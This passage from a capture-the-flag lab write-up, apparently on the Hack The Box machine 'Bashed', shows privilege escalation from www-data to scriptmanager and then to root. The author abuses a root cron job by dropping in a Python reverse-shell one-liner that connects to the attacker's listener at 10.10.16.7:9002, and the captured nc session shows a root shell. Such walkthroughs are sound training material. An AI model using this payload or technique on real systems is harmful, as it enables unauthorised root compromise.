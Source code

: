 Awesome, lets escalate our privilages.

```sh
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$
```
We can now access the `scripts directory`

```c
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Sep 29 12:44 test.txt

```
## shell as root
### test.py

`test.txt` file is owned by `root` and seems to be the results of the `test.py` script which is owned by `scriptmanager`.

Lets check out the contents of `test.py`

```py
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$
```
after a few minutes, I listed the contents of the scripts directory and I noticed the time on `test.txt` changed. Hmm could be a cron job running the `test.py`.

I tried changing the contents of the `test.py` and it still executed

I guess it executes any python file in that folder.

Knowing this, I will create an exploit as below and save it as `shell.py`

```py
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.7\",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > shell.py
```
I will start a listener on my attacking machine and set it to port `9002` And if we are right, we should wait a few minutes for a shell to pop up

```sh
┌─[george@parrot]─[~/HTB/boxes/bashed]
└──╼ $ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.68] 41966
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
And we are root :)
